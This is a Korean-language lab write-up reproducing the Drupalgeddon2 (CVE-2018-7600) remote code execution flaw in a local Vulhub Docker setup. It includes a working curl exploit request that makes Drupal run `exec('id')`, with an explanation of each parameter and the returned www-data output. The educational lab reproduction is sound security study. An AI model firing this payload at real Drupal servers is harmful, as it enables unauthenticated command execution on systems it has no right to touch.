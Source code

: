 # CVE-2018-7600 - Drupalgeddon2 Remote Code Execution

## 1. 개요

- **CVE 번호:** CVE-2018-7600
- **취약점 이름:** Drupalgeddon2
- **설명:**
Drupal의 폼 렌더링 시스템에서 발생하는 취약점으로, 인증되지 않은 공격자가 원격에서 임의의 명령어를 실행할 수 있는 RCE(Remote Code Execution) 취약점입니다. Drupal 7.x 및 8.x의 특정 버전에서 발견되었으며, 매우 치명적인 영향도를 갖습니다.

---

## 2. 실습 환경 구성

### 2.1 실습 환경 정보

- **가상 환경:** VirtualBox + Ubuntu 22.04
- **Docker 버전:** 26.1.3
- **Docker Compose:** 1.29.2

### 2.2 취약 환경 구성 절차

```
# Vulhub 저장소 Fork 및 Clone
cd ~
git clone https://github.com/Parkjoonhyeong/vulhub.git
cd vulhub/drupal/CVE-2018-7600

# docker-compose.yml 확인 및 수정 (MySQL 추가)
nano docker-compose.yml
```

`docker-compose.yml` 예시:

![image.png](attachment:53dc746e-73ce-4257-9b50-f05f86a6c940:image.png)

```
# 환경 실행
sudo docker-compose up -d
```

![image.png](attachment:13bdd9a6-9d9e-47d9-8f4b-98533abce4a9:image.png)

### 2.3 컨테이너 상태 확인

```
docker ps
```

정상 상태 예시:

![image.png](attachment:8f4dfb69-b6a3-49d4-8dcd-b3ca4f8446ba:image.png)

---

## 3. Drupal 설치

1. 브라우저 접속: `http://localhost:8080`
2. Drupal 설치 마법사 단계:
    - Language: English
    - Profile: Standard
    - Database:
        - **Database name:** drupal
        - **Username:** root
        - **Password:** root
        - **Host:** db
        - **Port:** 3306
    - 사이트 정보:
        - Site name: PoC Test Site
        - Admin ID/PW: root / root1234

설치 완료 후 관리자 페이지 진입 가능 상태 확인.

![image.png](attachment:7435fb38-93b4-4920-a9eb-f330f6c8340e:image.png)

---

## 4. PoC 실행

### 4.1 공격 요청 (curl 사용)

```
curl -s -X POST "http://localhost:8080/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax" \
-H "Content-Type: application/x-www-form-urlencoded" \
--data "form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id"
```

**이 요청은 Drupal의 `/user/register` 경로에 POST 요청을 보내며, 다음과 같은 방식으로 취약점을 트리거합니다:**

- **`ajax_form=1&_wrapper_format=drupal_ajax`** : Drupal의 Ajax 처리를 유도
- **`element_parents=account/mail/%23value`** : 폼 필드 경로를 지정하여 조작 위치 지정
- **`mail[#post_render][]=exec`** : **`post_render`** 함수로 PHP의 **`exec()`**를 지정
- **`mail[#markup]=id`** : 실행할 명령어로 리눅스의 **`id`** 명령 전달

즉, 폼 렌더링 과정에서 Drupal이 **`exec('id')`**를 실행하도록 만들어 **임의의 명령어 실행**을 유도합니다.

![image.png](attachment:74734c3a-e9f0-43db-a081-cb34c164e649:image.png)

### 4.2 결과

```
[{"command":"insert","method":"replaceWith","selector":null,"data":"uid=33(www-data) gid=33(www-data) groups=33(www-data)..."}]
```

응답 JSON 데이터에서 **`data`** 항목에 명령어 실행 결과(**`id`** 출력 결과)가 포함되어 있으며,
이는 Drupal 웹 서버 컨테이너의 리눅스 사용자 정보입니다.

- **`uid=33(www-data)`** : 현재 실행 중인 웹 프로세스의 UID
- **`gid=33(www-data)`** : 그룹 ID 정보

**이는 서버 측 명령어가 실제로 실행되었고, 그 결과가 HTTP 응답에 포함되었음을 보여줍니다.**

> 응답 본문 내에 uid=33(www-data) 등의 리눅스 명령어 실행 결과가 포함되어 있음
> 

---

## 5. GitHub 레포지토리

- **Fork된 레포지토리:** https://github.com/Parkjoonhyeong/vulhub
- **작업 위치:** **`drupal/CVE-2018-7600`**
- **커밋 이력:** **`docker-compose.yml`** 수정 및 실습 결과 README 추가

> Pull Request도 제출 시 추가 가산점 가능
> 

---

## 6. 결론

- CVE-2018-7600은 Drupal의 폼 시스템에서 발생한 RCE 취약점으로, 인증 없이 서버에 명령어 실행이 가능한 매우 위험한 보안 결함입니다.
- 본 실습에서는 취약한 Drupal 8.5.0 환경을 Docker로 재현하고, PoC를 통해 `id` 명령 실행에 성공하였습니다.
- 실습 결과는 HTTP 응답 본문을 통해 명확히 확인되었으며, 관련 내용은 GitHub 레포에도 반영하였습니다.
